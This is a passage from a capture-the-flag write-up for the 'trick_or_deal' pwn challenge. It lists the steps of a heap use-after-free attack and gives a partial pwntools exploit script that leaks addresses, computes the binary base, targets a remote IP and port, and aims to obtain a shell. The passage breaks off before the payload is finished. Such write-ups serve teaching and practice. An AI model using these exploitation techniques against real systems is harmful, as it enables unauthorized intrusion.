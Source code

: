 - leak the address of the binary
- Calculate unlock_storage address
- Free the "storage".
- Allocate a 0x60 size chunk
- Write 0x48 JJunk data and then write the unlock_storage() address
- Use option 1 to get a shell

The following Exploit accomplishes this:.

```python
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
#you can add this if you use tmux. If not, remove or change it for your debugging choice.

elf = context.binary = ELF('./trick_or_deal')
context.terminal = ['tmux', 'splitw', '-hp', '70']

def start():
    if args.GDB:
        return gdb.debug('./trick_or_deal', gdbscript=gs)
    if args.REMOTE:
        return remote('138.68.150.120',30119)
    else:
        return process('./trick_or_deal')
r = start()


def see():
    r.sendline(b"1")

def leak_1(data):
    leak = ""
    r.sendline(b"2")
    r.sendafter(b"What do you want!!?",data)
    r.recvuntil(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
    leak = u64(r.recvline().strip().ljust(8, b"\x00"))
    return leak

def leak_2():
    leak = ""
    r.sendline(b"2")
    r.sendlineafter(b"What do you want!!?",b"Phasers")
    r.recvline()
    r.recvline()
    leak = u64(r.recvline().strip().ljust(8, b"\x00"))
    r.recvuntil(b"[*] What do you want to do?")
    return leak

#========= exploit here ===================

leak1 = leak_1(b"A"*64)
log.info(f"stack leak = {hex(leak1)}")
leak2 = leak_2()
log.info(f"leak 2 = {hex(leak2)}")
elf.address = leak2-0x15e2
log.info(f"base = {hex(elf.address)}")

#free 0x60 chunk with the "call to RDX on 0x48"
r.sendline(b"4")
r.recvuntil(b" do you want to do?")

payload = b"A"*0x48
```